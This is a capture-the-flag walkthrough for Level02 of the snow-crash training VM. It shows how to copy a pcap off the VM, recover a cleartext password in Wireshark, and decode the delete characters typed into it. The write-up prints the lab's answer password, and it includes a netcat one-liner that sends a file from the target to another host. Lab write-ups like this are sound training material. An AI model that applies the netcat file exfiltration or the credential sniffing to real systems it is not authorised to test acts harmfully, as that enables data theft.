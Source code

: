 # Level02
Surprise! Our home directory is not empty this time.

![image](https://github.com/user-attachments/assets/e90f08cc-e8c6-43d2-a211-426c455d7998)

![image](https://github.com/user-attachments/assets/134c1920-cd17-48c7-8b12-ca8bad5826ee)

So, what is a **pcap** file and how do we make sense of it? 

PCAP files are a common format for storing packet captures. A PCAP file includes an exact copy of every byte of every packet as seen on the network. [See for more information](https://www.endace.com/learn/what-is-a-pcap-file).
There are various open-source tools we can use to read and write PCAP files including tcpdump, libPCAP, WinPCAP, NPCAP, Zeek, Snort, Suricata, Wireshark. **Wireshark** is among the recommended tools for this project and it is preinstalled on my machine so we'll go with that. (Edit: It was actually cloudshark that was recommended for this project but it is too late now and wireshark is more convenient)

I said my machine though, not the host machine. 

![image](https://github.com/user-attachments/assets/e46661ec-337c-4ad2-bfd4-95d0e2d0b172)

When using tools like john I was easily able to copy-paste text between machines but I need to actually transfer a file now. Did you know that there is a whole course for that on [HTB Academy](https://academy.hackthebox.com/course/preview/file-transfers)?
We probably won't need to go thorough all that though. We just need to learn how to use the **SCP** command as suggested by the project's subject.pdf.

`man scp`:
```
scp — OpenSSH secure file copy

scp copies files between hosts on a network.

       scp uses the SFTP protocol  over  a  ssh(1)  connection  for  data
       transfer,  and  uses the same authentication and provides the same
       security as a login session.
```

**Syntax:**
`scp user@remotehost:/home/user/file_name `

`$ scp -P 4242 level02@192.168.56.101:~/level02.pcap .`:

![image](https://github.com/user-attachments/assets/acd01ffd-d4e1-4ebf-a4b6-d80da9526c97)

(See [below](#bug), if you are having issues with this command)

Now that I have the necessary file in my current directory I can run

`$ sudo wireshark level02.pcap` (or do `$ chmod +r level02.pcap` beforehand and ditch sudo)

![image](https://github.com/user-attachments/assets/ba0cc406-d451-48ee-950a-3514e07a8308)

Going one by one I see the word Password on line 43(why not 42?) but am unable to decipher much else. Let's go to Analyze → [Follow](https://www.wireshark.org/docs/wsug_html_chunked/ChAdvFollowStreamSection.html) → TCP Stream window.

This will display stream content in the same sequence as it appeared on the network. Traffic from the **client to the server** will be colored **red**, while traffic from the **server to the client** will be colored **blue**.

**Non-printable** characters are replaced by **dots**.

![image](https://github.com/user-attachments/assets/ba82eb31-4bb9-4ad1-bd51-b5ddd80abd1c)

Alright, this looks promising `Password: ft_wandr...NDRel.L0L` 

![image](https://github.com/user-attachments/assets/9b94a91d-1848-4f86-884e-2a3bbf49f302)

Uh...oh right, remember when I said non-printable characters are replaced by dots? Let's take a closer look at what all those dots are meant to be

![image](https://github.com/user-attachments/assets/95510868-d994-47d6-b034-c1c236b97600)

**0D** is the **carriage return** which shows the point client was done entering his password.
**7F** is the **Delete** character. Client must have made some mistakes while entering the password or maybe it was an attempt to confuse anyone else who might be listening in.

`$ man ascii`

![image](https://github.com/user-attachments/assets/d8d7daf2-1354-4453-96f6-705d4a71a553)

In any case `ft_wandr...NDRel.L0L` becomes `ft_waNDReL0L`

Let's try it

![image](https://github.com/user-attachments/assets/09bf0234-51a0-40c2-b9c3-691117436e01)

![image](https://github.com/user-attachments/assets/9a7f45ae-fc3e-482d-a443-242461a4211d)

Finally!

<h2 id="bug">Blue Screen of Death </h2>

If running `scp` causes your computer to crash like me, it might be because of the VM's network settings.

The snow-crash machine is using Host-Only Adapter as we discussed before.

![image](https://github.com/user-attachments/assets/b87a6ad3-b8cd-45dd-92a0-f9032396ce87)

However the Kali machine I am using was on NAT

![image](https://github.com/user-attachments/assets/ef7629e8-e591-490d-bcab-d3cbc0dfd8f5)

When I changed it to **Host-only Adapter** the issue was resolved.

Hopefully those who are on Mac are having easier time here and not dealing with weird VirtualBox bugs.

### Alternatively,

You can also use `netcat` to transfer files like so:

First, we start listening on a port of our choice: `nc -l -p 4444 > level02.pcap` and we will be redirecting anything that comes through that port to a file we created. (It doesn't have to be named leve02)

![image](https://github.com/user-attachments/assets/7edb672c-d09b-4c37-84e0-afb69061f4ff)

Then we send the file `level02@SnowCrash:~$  nc -w 3 92.168.56.102 4444 < ./level02.pcap`

![image](https://github.com/user-attachments/assets/d0d21ede-e645-422a-8b36-57e0eedfea24)

(if you don't know your ip you can just run `$ ifconfig`)

![image](https://github.com/user-attachments/assets/36567e8d-1783-4401-8352-facb571c13aa)


Now let's check our home directory.

![image](https://github.com/user-attachments/assets/b6d22e80-f4e2-4f12-a5a2-b3a5320ed581)

Ta-da!
